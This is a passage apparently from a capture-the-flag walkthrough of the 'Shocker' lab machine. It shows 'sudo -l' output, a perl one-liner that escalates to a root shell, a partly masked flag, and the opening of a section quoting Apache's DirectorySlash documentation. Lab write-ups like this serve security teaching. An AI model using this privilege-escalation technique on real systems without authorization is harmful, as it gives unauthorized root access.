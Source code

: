     shelly@Shocker:/home/shelly$ sudo -l
    Matching Defaults entries for shelly on Shocker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User shelly may run the following commands on Shocker:
        (root) NOPASSWD: /usr/bin/perl
    

shelly can run `perl` as root.

### Shell

`perl` has a `-e` option that allows me to run Perl from the command line. It
also has an `exec` command that will run shell commands. Putting that
together, I can run `bash` as root:

    
    
    shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash"'
    root@Shocker:/home/shelly#
    

That’s enough to grab `root.txt`:

    
    
    root@Shocker:~# cat root.txt
    3675a0fa************************
    

## Beyond Root

### Apache Config

When I first found the `/cgi-bin/` directory on Apache that responded to
`/cgi-bin` with a 404 not found, I assumed it would be due to the
`DirectorySlash` [Apache
directive](http://httpd.apache.org/docs/2.2/mod/mod_dir.html#directoryslash):

> The `DirectorySlash` directive determines whether `mod_dir` should fixup
> URLs pointing to a directory or not.
>
> Typically if a user requests a resource without a trailing slash, which
> points to a directory, `mod_dir` redirects him to the same resource, but
> _with_ trailing slash for some good reasons:
>
>   * The user is finally requesting the canonical URL of the resource
>   * `mod_autoindex` works correctly. Since it doesn’t emit the path in the
> link, it would point to the wrong path.
>   * `DirectoryIndex` will be evaluated _only_ for directories requested with
> trailing slash.
>   * Relative URL references inside html pages will work correctly.
>

>
> If you don’t want this effect _and_ the reasons above don’t apply to you,
> you can turn off the redirect as shown below.
